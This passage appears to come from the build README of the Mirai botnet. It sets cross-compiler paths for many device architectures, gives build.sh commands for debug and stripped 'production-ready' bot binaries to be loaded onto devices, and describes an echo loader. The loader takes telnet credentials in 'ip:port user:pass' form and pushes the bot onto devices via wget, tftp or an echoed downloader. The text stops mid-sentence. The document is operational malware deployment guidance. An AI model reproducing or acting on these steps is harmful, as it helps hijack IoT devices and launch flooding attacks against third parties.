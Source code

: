 ```bash
export PATH=$PATH:/etc/xcompile/armv4l/bin
export PATH=$PATH:/etc/xcompile/armv6l/bin
export PATH=$PATH:/etc/xcompile/i586/bin
export PATH=$PATH:/etc/xcompile/m68k/bin
export PATH=$PATH:/etc/xcompile/mips/bin
export PATH=$PATH:/etc/xcompile/mipsel/bin
export PATH=$PATH:/etc/xcompile/powerpc/bin
export PATH=$PATH:/etc/xcompile/powerpc-440fp/bin
export PATH=$PATH:/etc/xcompile/sh4/bin
export PATH=$PATH:/etc/xcompile/sparc/bin

# Golang
export PATH=$PATH:/usr/local/go/bin
export GOPATH=$HOME/Documents/go

-- END --
```


## Building CNC+Bot

In mirai folder, there is build.sh script.
   
```bash 
./build.sh debug telnet
```
    
Will output debug binaries of bot that will not daemonize and print out info about if it can connect to CNC,
etc, status of floods, etc. Compiles to ./mirai/debug folder

```bash    
./build.sh release telnet
```
    
Will output production-ready binaries of bot that are extremely stripped, small (about 60K) that should be 
loaded onto devices. Compiles all binaries in format: "mirai.$ARCH" to ./mirai/release folder.


## Building Echo Loader

Loader reads telnet entries from STDIN in following format: `ip:port user:pass`. It detects if there is 
wget or tftp, and tries to download the binary using that. If not, it will echoload a tiny binary (about 1kb) 
that will suffice as wget.
    
```bash
./build.sh
```
    
Will build the loader, optimized, production use, no fuss. If you have a file in formats used for loading, 
you can do this:
    